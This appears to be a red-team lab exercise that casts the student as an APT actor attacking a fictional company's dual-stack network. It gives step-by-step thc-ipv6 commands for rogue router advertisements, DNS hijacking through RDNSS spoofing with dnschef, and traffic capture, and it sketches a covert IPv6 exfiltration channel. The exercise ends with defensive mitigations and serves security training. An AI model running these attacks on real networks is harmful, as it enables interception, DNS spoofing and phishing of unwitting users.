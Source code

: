 # The IPv6 Shadow Takeover

Objective: Act as an APT actor (`APT-66`, "Shadow6") to exploit the pervasive but often overlooked IPv6 attack surface. You will use rogue router advertisements to hijack traffic, spoof DNS, and establish a persistent foothold, all while evading traditional IPv4-focused security measures.

Scenario: The [OpenHands International](entity.md) network is dual-stack (has IPv4 and IPv6 enabled). However, their network monitoring and security policies are primarily focused on IPv4. Your goal is to exploit IPv6 auto-configuration to redirect and intercept victim traffic.

## Phase 1: Reconnaissance - Discovering the Dual-Stack Network

Goal: Confirm IPv6 is enabled on the network and map the IPv6 addressing scheme.

Instructions:

1.  Access Your Foothold:
    *   You have physical access to the OpenHands office network. Start on your attacker VM.
    *   Command: `ssh volunteer@<attacker_vm_ip>`
    *   Password: `[Provided by Lab Instructor]`

2.  Check for IPv6 Connectivity:
    *   Determine your own IPv6 address and default gateway. The presence of a `scope global` address indicates IPv6 is active.
    *   Command: `ip -6 addr show` and `ip -6 route show default`
    *   Finding: What is your IPv6 Global Address? (It will start with `2xxx:` or `fdxx:`).
    *   Your IPv6 Address: `[DISCOVER THIS]`
    *   IPv6 Default Gateway: `[DISCOVER THIS]` - Note it as `LEGITIMATE_RA`.

3.  Discover Other IPv6 Hosts:
    *   Identify the local IPv6 subnet prefix (the first 64 bits of your address). Use the `alive6` tool from the `thc-ipv6` toolkit to find other hosts.
    *   Command: `alive6 eth0`
    *   Finding: This will list IPv6 addresses of other hosts on the local link. Note one as `VICTIM_IPV6`.

4.  Identify the Legitimate Router:
    *   Use `dump_router6` to listen for Router Advertisement (RA) messages from the legitimate gateway.
    *   Command: `dump_router6 eth0`
    *   Finding: Note the source IPv6 address of the legitimate router. It should match your `LEGITIMATE_RA`.

Checkpoint: You have confirmed IPv6 is active and have identified key targets: the legitimate router and a victim host.

## Phase 2: Attack - Rogue Router Advertisement (MITM)

Goal: Become a malicious IPv6 router on the network to trick hosts into sending you their traffic.

Instructions:

1.  Enable IPv6 Forwarding:
    *   Configure your attacker machine to forward IPv6 packets, just like in the IPv4 MITM attack.
    *   Command: `sudo sysctl -w net.ipv6.conf.all.forwarding=1`

2.  Launch a Rogue Router Advertisement:
    *   Use `fake_router6` to impersonate a legitimate router. This will tell hosts on the network to use your machine as their default gateway for IPv6.
    *   Command:
        ```bash
        sudo fake_router6 eth0 <ipv6_prefix>/64
        ```
        *Replace `<ipv6_prefix>` with the first 64 bits of the network prefix you discovered in Phase 1 (e.g., `2001:db8:abcd:1234`).*

3.  Verify the attack is working:
    *   On a victim machine (ask your instructor for access), check its IPv6 routing table after your attack runs for a moment.
    *   Command on Victim (simulated): `ip -6 route show default`
    *   Finding: The victim should now have *two* default routes: one to the legitimate router and one to your attacker machine. IPv6 will often prefer the most recently received RA.
    *   Victim's New Default Route: `default via [YOUR_IPV6_LINK_LOCAL] dev eth0 ...`

Checkpoint: You have successfully poisoned the victim's IPv6 routing table. A portion of their IPv6 traffic is now being sent to your machine.

## Phase 3: DNS Hijacking via RDNSS

Goal: Use the rogue RA messages to also poison the victim's DNS settings, redirecting them to a malicious server you control.

Instructions:

1.  Set Up a Malicious DNS Server:
    *   On your attacker machine, configure a simple DNS server that logs all queries and returns spoofed answers. We'll use `dnschef`.
    *   Command: `sudo dnschef --ipv6 --fakeipv6=<your_ipv6_address> --interface=::0 --port=53`

2.  Advertise Your Rogue DNS Server:
    *   Modify your rogue RA attack to include the Recursive DNS Server (RDNSS) option, pointing to your attacker machine.
    *   Command: Use a more advanced tool like `thc-ipv6`'s `fake_dns6d` or `fake_router26` which combines RA and RDNSS spoofing.
    *   Example:
        ```bash
        # This command advertises yourself as a router AND the DNS server
        sudo fake_router26 eth0 <ipv6_prefix>/64 <your_ipv6_address>
        ```

3.  Trigger and Verify DNS Redirection:
    *   On the victim machine, try to resolve a domain name.
    *   Command on Victim (simulated): `nslookup www.openhands-internal.org`
    *   Finding: The `nslookup` should show that the DNS query was answered by *your* IPv6 address. The result IP should also be your attacker IP.
    *   DNS Server Used by Victim: `[YOUR_IPV6_ADDRESS]`

Checkpoint: You now control the victim's IPv6 default gateway *and* their DNS resolver. You can intercept and manipulate their traffic and direct them to phishing sites.

## Phase 4: Exploiting Privacy Extensions for Persistence

Goal: IPv6 Privacy Extensions (RFC 4941) generate temporary addresses. We will exploit this to maintain access even if the victim's primary address changes.

Instructions:

1.  Scan for Temporary Addresses:
    *   The victim host will have multiple IPv6 addresses: a stable one and temporary ones for outbound connections.
    *   Use `passive_discovery6` to silently monitor traffic and map all of the victim's addresses to its MAC address.
    *   Command: `sudo passive_discovery6 eth0`

2.  Target the Stable Address:
    *   For persistence, focus on the victim's stable, link-local address (derived from its MAC address) or its static address. This address is less likely to change.
    *   Finding: What is the victim's stable link-local address? (It will start with `fe80::` and be based on its MAC).
    *   Victim's Stable LL Address: `[DISCOVER THIS]`

3.  Maintain Rogue Advertisements:
    *   Your `fake_router6` attack is continuous. As long as it runs, any new IPv6 address the victim generates will receive your malicious RA and will use your machine as its gateway. This ensures persistence even as temporary addresses rotate.

Checkpoint: You have a persistent MitM position against the victim host, regardless of its changing IPv6 addresses.

## Phase 5: The Stealthy Exfiltration

Goal: Use your position to intercept specific traffic or create a covert channel.

Instructions:

1.  Intercept Plaintext Traffic:
    *   Just like in IPv4, use `tcpdump` to capture traffic flowing through your machine.
    *   Command: `sudo tcpdump -i eth0 -w ipv6_capture.pcap ip6 host <VICTIM_IPV6> and not port 53`
    *   *We filter out DNS port 53 because we are already logging those queries separately with `dnschef`.*

2.  Create a IPv6 Covert Channel (Optional Bonus):
    *   The large address space of IPv6 can be abused for data exfiltration. Tools like `6exfil` can encode data within the IPv6 address fields of seemingly legitimate packets.
    *   Concept: Instead of sending a normal packet to `2001:db8::1`, you send one to `2001:db8::<encoded_data>`. This is highly stealthy.

Final Report: Document all the `[DISCOVER THIS]` fields. Explain why IPv6 presents a significant blind spot for many organisations. Propose two key mitigations:
1.  RA Guard: Implement Router Advertisement Guard on network switches to drop malicious RAs from unauthorized ports.
2.  DHCPv6 Snooping: Use DHCPv6 Snooping to prevent rogue DHCPv6 servers and enforce legitimate IPv6 configuration.